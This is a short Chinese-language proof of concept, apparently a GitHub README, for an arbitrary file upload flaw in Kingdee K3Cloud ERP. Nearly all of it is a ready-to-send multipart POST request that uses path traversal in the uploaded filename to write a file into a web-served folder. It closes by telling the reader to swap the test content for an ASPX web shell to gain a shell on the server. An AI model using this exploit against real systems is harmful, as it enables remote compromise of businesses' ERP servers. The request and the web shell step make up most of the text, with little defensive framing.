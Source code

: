 # 金蝶任意文件上传poc
访问接口  
http://127.0.0.1/k3cloud/SRM/ScpSupRegHandler  

POC：  
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1  
Host: 127.0.0.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0   
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8   
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2   
Accept-Encoding: gzip, deflate, br  
Connection: keep-alive  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: none  
Sec-Fetch-User: ?1  
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061  
Content-Length: 1782

--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="dbId_v"  
  
.  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FID"  
  
2023  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/kingdee.txt"  
Content-Type: text/plain  
  
test  
--2ac719f8e29343df94aa4ab49e456061—-  

上传成功访问路径  
http://127.0.0.1/k3cloud/uploadfiles/kingdee.txt  
替换poc内上传内容为aspx马，提交上传getshell  
http://127.0.0.1/k3cloud/uploadfiles/kingdee.aspx
